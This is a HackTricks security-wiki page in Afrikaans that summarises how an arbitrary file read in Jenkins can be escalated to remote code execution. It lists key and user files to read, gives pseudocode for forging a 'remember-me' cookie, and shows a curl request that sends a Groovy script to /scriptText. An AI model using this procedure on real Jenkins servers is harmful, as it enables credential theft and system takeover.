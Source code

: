 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In hierdie blogpos is dit moontlik om 'n wonderlike manier te vind om 'n Local File Inclusion kwesbaarheid in Jenkins in RCE te transformeer: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dit is 'n AI-gegenereerde opsomming van die deel van die pos waar die vervaardiging van 'n arbitrêre koekie misbruik word om RCE te verkry deur 'n plaaslike lêer te lees totdat ek tyd het om 'n opsomming op my eie te skep:

### Aanval Voorvereistes

* **Kenmerk Vereiste:** "Onthou my" moet geaktiveer wees (standaard instelling).
* **Toegangsvlakke:** Aanvaller benodig Algemene/Lees regte.
* **Geheime Toegang:** Vermoë om beide binêre en teksinhoud van sleutel lêers te lees.

### Gedetailleerde Exploitasiestap

#### Stap 1: Gegevensinsamelings

**Gebruikersinligting Herwinning**

* Toegang tot gebruikerskonfigurasie en geheime van `$JENKINS_HOME/users/*.xml` vir elke gebruiker om te versamel:
* **Gebruikersnaam**
* **Gebruikerssaad**
* **Tydstempel**
* **Wagwoord hash**

**Geheime Sleutel Uittrekking**

* Trek die kriptografiese sleutels uit wat gebruik word om die koekie te teken:
* **Geheime Sleutel:** `$JENKINS_HOME/secret.key`
* **Meester Sleutel:** `$JENKINS_HOME/secrets/master.key`
* **MAC Sleutel Lêer:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Stap 2: Koekie Vervalsing

**Token Voorbereiding**

*   **Bereken Token Vervaldatum:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Voeg een uur by die huidige tyd
```
{% endcode %}
*   **Konkateer Gegevens vir Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Sleutel Ontsleuteling**

*   **Ontsleutel MAC Sleutel Lêer:**

```javascript
key = toAes128Key(masterKey)  // Convert meester sleutel na AES128 sleutel formaat
decrypted = AES.decrypt(macFile, key)  // Ontsleutel die .mac lêer
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Handtekening Berekening**

*   **Bereken HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Bereken HMAC met die token en MAC sleutel
tokenSignature = bytesToHexString(mac)  // Convert die MAC na 'n hexadesimale string
```

**Koekie Kodering**

*   **Genereer Finale Koekie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodeer die koekie data
```
{% endcode %}

#### Stap 3: Kode Uitvoering

**Sessie Verifikasie**

* **Haal CSRF en Sessie Tokens:**
* Maak 'n versoek na `/crumbIssuer/api/json` om `Jenkins-Crumb` te verkry.
* Vang `JSESSIONID` uit die antwoord, wat saam met die onthou-my koekie gebruik sal word.

**Opdrag Uitvoeringsversoek**

*   **Stuur 'n POST Versoek met Groovy Skrip:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skrip kan gebruik word om stelselniveau opdragte of ander operasies binne die Jenkins omgewing uit te voer.

Die voorbeeld curl-opdrag wat verskaf word demonstreer hoe om 'n versoek aan Jenkins te maak met die nodige koptekste en koekies om arbitrêre kode veilig uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

